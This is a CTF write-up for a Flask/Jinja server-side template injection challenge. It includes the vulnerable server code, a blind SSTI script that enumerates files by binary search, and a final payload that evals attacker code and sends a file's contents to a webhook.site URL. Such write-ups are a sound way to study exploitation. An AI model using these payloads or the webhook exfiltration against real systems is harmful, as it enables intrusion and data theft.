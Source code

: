 # litter

this one was really hard for me because the Jinja docs are not detailed enough

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/c7fc4768-7b5b-4b3d-b86c-3093ebf8ba5a)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/cc3322d7-6377-4527-91da-e44618b2e3f1)

server.py
```py
#!/usr/bin/env python3

from flask import Flask, request, Response, redirect, render_template_string, url_for
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
Flask.jinja_options = {'line_statement_prefix': '|'}
app = Flask(__name__)
limiter = Limiter(
    get_remote_address,
    app=app,
    default_limits=["50000 per hour"],
    storage_uri="memory://",
)

@app.route('/', methods=["GET"])
@limiter.limit("2/second")
def index():
    if "source" in request.args:
        return Response(open(__file__).read(), mimetype='text/plain')
    return open("index.html").read()

@app.route('/docker', methods=["GET"])
@limiter.limit("2/second")
def docker():
    return Response(open("Dockerfile").read(), mimetype='text/plain')

@app.route('/create', methods=["POST"])
@limiter.limit("2/second")
def create():
    trash = request.form['trash']
    return redirect(url_for("view_user", trash=trash))

@app.route('/user', methods=["GET"])
@limiter.limit("2/second")
def view_user():
    trash = request.args.get("trash", None)
    if len(trash) > 100:
        return "Too much trash!"
    if any(i in trash for i in "{}"):
        return "Unsafe characters found!"
    return render_template_string(f'''
        {trash}
    ''',trash=trash)

if __name__ == "__main__":
    app.run('0.0.0.0', 15004)
```

## solution

notice the `|` line statement prefix

looking at the jinja docs

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/7fb9d085-5072-4b66-b4a3-5925e0361448)

notably, to minimize characters we can use an "if" statement

like this:
```
|if 1==1
2
|endif
```

first, i tried getting to builtins, which was hard, but then i made this crazy script equivalent to the `ls` command

```py
from requests import get
from time import sleep
from math import log2


chars = "".join([chr(_) for _ in range(32, 127) if chr(_) not in "{}\""])

# also used comparisons

i2 = 4

url = lambda i1, c: f"http://puzzler7.imaginaryctf.org:15004/user?trash=%7Cif+e.__init__.__globals__%5B%27__builtins__%27%5D%5B%27__import__%27%5D(%27os%27).listdir()%5B{i2}%5D%5B{i1}%5D%3E%22%{hex(ord(c))[2:]}%22%0A!%0A%7Cendif"
url2 = lambda i1, c: f"http://puzzler7.imaginaryctf.org:15004/user?trash=%7Cif+e.__init__.__globals__%5B%27__builtins__%27%5D%5B%27__import__%27%5D(%27os%27).listdir()%5B{i2}%5D%5B{i1}%5D==%22%{hex(ord(c))[2:]}%22%0A!%0A%7Cendif"


total = "zzz_theres_no_way_this_file_shows_up"
for index in range(len(total), 100):
    left = 0
    before_total = total
    right = len(chars)
    for _ in range(0, int(log2(len(chars))+1)):
        sleep(1.3)
        char = chars[int(left/2+right/2)]
        if (resp := get(url(index, char)).text) == "\x0a!\x0a":
            left = int(left/2+right/2)
        else:
            right = int(left/2+right/2)
    sleep(1.3)
    if (resp := get(url2(index, chars[left])).text) == "\x0a!\x0a":
        total += chars[left]
    # print(chars[left], resp)
    sleep(1.3)
    if (resp := get(url2(index, chars[right])).text) == "\x0a!\x0a":
        total += chars[right]
    # print(chars[right], resp)
    sleep(1.3)
    if (resp := get(url2(index, chars[left-1])).text) == "\x0a!\x0a":
        total += chars[left-1]
    # print(chars[left-1], resp)
    sleep(1.3)
    if (resp := get(url2(index, chars[left-2])).text) == "\x0a!\x0a":
        total += chars[left-2]
    # print(chars[left-2], resp)
    sleep(1.3)
    if (resp := get(url2(index, chars[right+1])).text) == "\x0a!\x0a":
        total += chars[right+1]
    # print(chars[right+1], resp)
    sleep(1.3)
    if len(total) == len(before_total):
        print(total, "!!!", chars[left-5:right+5], len(total), len(before_total))
        break
    print(total)


# 0: x.txt
# 1: Dockerfile
# 2: index.html
# 3: docker-compose.yml
# 4: zzz_theres_no_way_this_...
# 5: server.py
```

this does a binary search where it compares each letter like `'a'>'b'` is False and so boolean expressions can be used to determine each file name in os.listdir

one way that we can save characters is by leaving out the carriage return character that windows puts (instead of just `\x0a`, windows puts `\x0d\x0a`)

anyways my real solution was to utilize request.args to eval an arbitrarily long piece of code with another argument

```
http://puzzler7.imaginaryctf.org:15004/user?trash=%7Cif+e.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D(request.args.c)%0D%0A!%0D%0A%7Cendif&c=%5F%5Fimport%5F%5F%28%27urllib%27%29%2Erequest%2Eurlopen%28%27https%3A%2F%2Fwebhook%2Esite%2F<REDACTED>%27%20%2B%20open%28%22zzz%5Ftheres%5Fno%5Fway%5Fthis%5Ffile%5Fshows%5Fup%5Ffirst%2Etxt%22%29%2Eread%28%29%29
```

it was such a pain to do this challenge and i dont like it

also i didn't know that `|print(thing)` was possible (not in the documentation afaik!!!! why, i dont know) so i had to use urllib requests to send my request to a webhook.site url
